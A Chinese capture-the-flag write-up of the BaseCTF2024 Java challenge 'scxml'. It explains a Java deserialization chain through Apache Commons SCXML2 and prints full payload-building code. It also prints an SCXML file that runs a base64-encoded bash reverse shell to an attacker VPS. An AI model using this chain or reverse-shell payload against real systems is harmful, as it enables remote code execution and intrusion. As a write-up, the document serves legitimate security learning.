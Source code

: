 ```yaml
---
title: BaseCTF2024_JAVA题解(一血)
---
```


*作者：Narcher*	*时间：2024/9/13*	*分类：writeup*

<!--more-->

### [Fin] scxml

#### 前言

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240915211020451.png" alt="image-20240915211020451" style="zoom:50%;" />

看见有java题没人做，于是便做了做，感觉还行，直到比赛结束只有三解

#### 正文

N1师傅的题，难度刚刚好

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913115829227.png" alt="image-20240913115829227" style="zoom:50%;" />

先下载附件看看：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913115938570.png" alt="image-20240913115938570" style="zoom: 67%;" />

有一个自定义的包n1ght.jar，打开分析一下：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913120048524.png" alt="image-20240913120048524" style="zoom:50%;" />

自定义写了个类，并含有toString方法，再看看Main：

```java
import com.sun.net.httpserver.HttpServer;
import javax.naming.InitialContext;
import java.io.IOException;

public class Main {
    public static void main(String[] args) throws IOException {
        var port = Integer.parseInt(System.getenv().getOrDefault("PORT", "8000"));
        var server = HttpServer.create(new java.net.InetSocketAddress(port), 0);
        server.createContext("/", req -> {
            var code = 200;
            var response = switch (req.getRequestURI().getPath()) {
                case "/scxml" -> {
                    try {
                        var param = req.getRequestURI().getQuery();
                        yield new java.io.ObjectInputStream(new java.io.ByteArrayInputStream(java.util.Base64.getDecoder().decode(param))).readObject().toString();
                    } catch (Throwable e) {
                        e.printStackTrace();
                        yield ":(";
                    }
                }
                default -> {
                    code = 404;
                    yield "Not found";
                }
            };
            req.sendResponseHeaders(code, 0);
            var os = req.getResponseBody();
            os.write(response.getBytes());
            os.close();
        });
        server.start();
        System.out.printf("Server listening on :%s\n", port);
    }
}
```

发现在/scxml路由下对查询的参数进行了Base64解密，并在反序列化后执行了toString方法，再联想到上边那个自定义包里的类，八成是用那个InvokerImpl类作为入口点，再结合下边的依赖以及题目名字，不难想到scxml的RCE漏洞：[Apache SCXML2 RCE漏洞_scxml scxmlexecutor-CSDN博客](https://blog.csdn.net/m0_73512445/article/details/134451789)

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913120435194.png" alt="image-20240913120435194" style="zoom:67%;" />

当然，我们还是回到上边继续跟题目来：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913120742029.png" alt="image-20240913120742029" style="zoom:67%;" />

InvokerImpl的构造器要求传入三个参数，第一个Invoker有点可疑，点进去看看：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913120825966.png" alt="image-20240913120825966" style="zoom:50%;" />

发现是个接口，那么我们去找找它的实现类，结果发现只有一个SimpleSCXMLInvoker类，结合上边贴出来的那个漏洞，打就完了

因为InvokerImpl触发的是SimpleSCXMLInvoker类的invoke方法，我们看一下：

```java
    public void invoke(String source, Map<String, Object> params) throws InvokerException {
        SCXML scxml = null;
        try {
            scxml = SCXMLReader.read(new URL(source));
        } catch (ModelException var9) {
            throw new InvokerException(var9.getMessage(), var9.getCause());
        } catch (IOException var10) {
            throw new InvokerException(var10.getMessage(), var10.getCause());
        } catch (XMLStreamException var11) {
            throw new InvokerException(var11.getMessage(), var11.getCause());
        }

        Evaluator eval = this.parentSCInstance.getEvaluator();
        this.executor = new SCXMLExecutor(eval, new SimpleDispatcher(), new SimpleErrorReporter());
        Context rootCtx = eval.newContext((Context)null);
        Iterator var6 = params.entrySet().iterator();

        while(var6.hasNext()) {
            Map.Entry<String, Object> entry = (Map.Entry)var6.next();
            rootCtx.setLocal((String)entry.getKey(), entry.getValue());
        }

        this.executor.setRootContext(rootCtx);
        this.executor.setStateMachine(scxml);
        this.executor.addListener(scxml, new SimpleSCXMLListener());
        this.executor.registerInvokerClass("scxml", this.getClass());

        try {
            this.executor.go();
        } catch (ModelException var8) {
            throw new InvokerException(var8.getMessage(), var8.getCause());
        }

        if (this.executor.getCurrentStatus().isFinal()) {
            TriggerEvent te = new TriggerEvent(this.eventPrefix + invokeDone, 3);
            (new AsyncTrigger(this.parentSCInstance.getExecutor(), te)).start();
        }
    }
```

很简单的逻辑，对我们传入的source进行URL查询后，解析所得的xml文件并执行，其实到`this.executor.go();`就结束了，之后注意一下前边调用到的参数都一一传参避免在前边报错就好了：

```java
import com.n1ght.InvokerImpl;
import org.apache.commons.scxml2.SCInstance;
import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.env.SimpleContext;
import org.apache.commons.scxml2.env.SimpleErrorReporter;
import org.apache.commons.scxml2.env.jexl.JexlEvaluator;
import org.apache.commons.scxml2.invoke.SimpleSCXMLInvoker;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        SCXMLExecutor executor = new SCXMLExecutor();
        executor.setRootContext(new SimpleContext());
        executor.setEvaluator(new JexlEvaluator());
        executor.setErrorReporter(new SimpleErrorReporter());
        Class c = Class.forName("org.apache.commons.scxml2.SCInstance");
        Constructor constructor = c.getDeclaredConstructor(SCXMLExecutor.class);
        constructor.setAccessible(true);
        SCInstance scInstance = (SCInstance) constructor.newInstance(executor);
        setValue(scInstance,"evaluator", new JexlEvaluator());
        SimpleSCXMLInvoker simpleSCXMLInvoker = new SimpleSCXMLInvoker();
        simpleSCXMLInvoker.setSCInstance(scInstance);
        Map<String, Object> params = new HashMap<>();
        params.put("Narcher","Alter");
        InvokerImpl invoker = new InvokerImpl(simpleSCXMLInvoker,"http://1.1.1.1:6666/scxml2.xml",params);//vps地址
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(invoker);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));
    }
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

其中scxml2.xml内容如下（记得自己改vps地址）：

```java
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
        <state id="run">
                <onentry>
                        <script>
                                ''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzc3NzcgMD4mMQo=}|{base64,-d}|{bash,-i}')
                        </script>
                </onentry>
        </state>
</scxml>
```

之后用我上边的链子打就完了（记得url编码），下面附上图：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913122709575.png" alt="image-20240913122709575" style="zoom:50%;" />

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913122626236.png" alt="image-20240913122626236" style="zoom:67%;" />

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/image-20240913122747697.png" alt="image-20240913122747697" style="zoom:67%;" />

成功反弹shell并命令执行获得flag

#### 小结

本题的难度在于网上没有现成的payload，从头自己找一条链子对于大多数脚本小子来说可能有些难度，其次就是没注意到应该把链子放在传参的key上或者是在自己构造链子的时候各种地方漏了赋值等等，题目总的来说还挺好玩的

最后贴上一血：

<img src="BaseCTF2024_JAVA%E9%A2%98%E8%A7%A3(%E4%B8%80%E8%A1%80)/qq_pic_merged_1726140343822.jpg" alt="qq_pic_merged_1726140343822" style="zoom: 80%;" />